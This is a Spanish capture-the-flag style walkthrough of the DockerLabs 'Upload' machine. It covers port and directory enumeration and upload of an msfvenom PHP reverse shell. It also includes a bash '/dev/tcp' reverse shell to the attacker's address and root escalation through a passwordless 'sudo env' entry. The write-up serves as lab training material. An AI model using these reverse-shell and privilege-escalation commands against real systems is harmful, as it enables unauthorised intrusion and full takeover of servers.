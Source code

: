 ```yaml
---
layout: single
title: Upload - DockerLabs
excerpt: "Maquina Linux vulnerada mediante una reverse shell subieno un archivo al servidor"
date: 2024-05-18
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Reverse Shell
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar reverse shell y escalar privilegios mediante el uso de binarios

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que solo está abierto el puerto 80, con esto sabemos que corre el servicio Apache en dicho puerto

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:37 -03
Nmap scan report for 172.17.0.2
Host is up (0.000011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.49 seconds
```

Procedemos a investigar en el navegador colocando la siguiente url `http://172.17.0.2`

![url](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/001Upload.png)

Se puede observar que es una pagina para subir archivos, por lo tanto se intuye que el vector de ataque podría ser mediante una reverse shell en php, procedo a crear el archivo malicioso con la herramienta msfvenom

```bash
msfvenom -p php/reverse_php LHOST=192.168.0.200 LPORT=8081 -f raw > pwned.php
```

| Parametro | Descripción                                |
| --------- | ------------------------------------------ |
| -p        | tipo de payload                            |
| LHOST     | IP de la maquina atacante                  |
| LPORT     | Puerto a la escucha de la maquina atacante |
| -f        | formato de salida                          |

Procedo a subir el payload, me indica que el archivo se subió correctamente.

![payload](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/002Upload.png)

Ahora debo buscar donde se guardó el archivo pwned.php, por lo tanto procedo a realizar un fuzzing web con la herramienta gobuster

```bash
gobuster -n 404 -t 64 dir -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlist/directoyry-list-lowercase-2.3-medium.txt -x txt,py,sh,php,html
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py,sh
[+] No status:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                [Size: 275]
/.php                 [Size: 275]
/uploads              [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           [Size: 1357]
/index.html           [Size: 1361]
/.html                [Size: 275]
/.php                 [Size: 275]
/server-status        [Size: 275]
Progress: 1245858 / 1245864 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo el resultado queda al descubierto el directorio uploads procedo a ingresar la siguiente url `http://172.17.0.2/uploads`

![uploads](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/003Upload.png)

Al ingresar se observa el archivo que había subido con anterioridad pwned.php

# 2- Intrusión

procedo a ponerme a la escucha en mi maquina atacante con netcat por el puerto `8081` con dicho puerto configuré el payload anteriormente

```bash
nc -nlvp 8081
```

Ahora doy click en el archivo pwned.php, el navegador se va a quedar como si estuviera cargando es buena señal

![pwned](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/004Upload.png)

me fijo en la consola de mi maquina atacante y puedo ver que realizó la conexión con éxito ejecuto el comando `whoami` y me devuelve el usuario `www-data` intrusión realizada!

![www-data](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/005Upload.png)

## Nota:

El payload en msfvenom suele ser inestable y luego de un tiempo se cae la conexión por lo tanto es recomendable abrir otra terminal y ponerse a la escucha con un puerto diferente en la maquina donde ya tenemos la intrusión

```bash
nc -nlvp 4443
```

ahora se procede a enviar la reverse shell para eso se debe ir la pagina web [revshell.com](https://www.revshells.com/) y copiar el siguiente comando

```bash
bash -c "sh -i >& /dev/tcp/192.168.0.200/4443 0>&1"
```

con esto se va adquirir una nueva shell mas estable

## Tratamiento de la TTY

Antes de realizar la escalada de privilegios voy hacer el tratamiento de tty para poder estabilizar la shell

```bash
script /dev/null -c bash
```

presionamos ctrl + z

```bash
stty raw -echo; fg
```

luego escribimos

```bash
reset xterm
```

nota: es posible que no muestre en pantalla lo que estamos tecleando

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

# 3- Escalada de privilegios

Ya con la bash mas estable es momento de escalar privilegios a root para ellos voy a ejecutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![tty](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/006Upload.png)

En este caso se observa que se puede ejecutar el binario `/usr/bin/env` como el usuario **root**, sin proporcionar contraseña. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

![binario](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/007Upload.png)

ejecutamos el comando

```bash
sudo env /bin/sh
```

Listo! se logró escalar privilegios al usuario root

![root](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/008Upload.png)

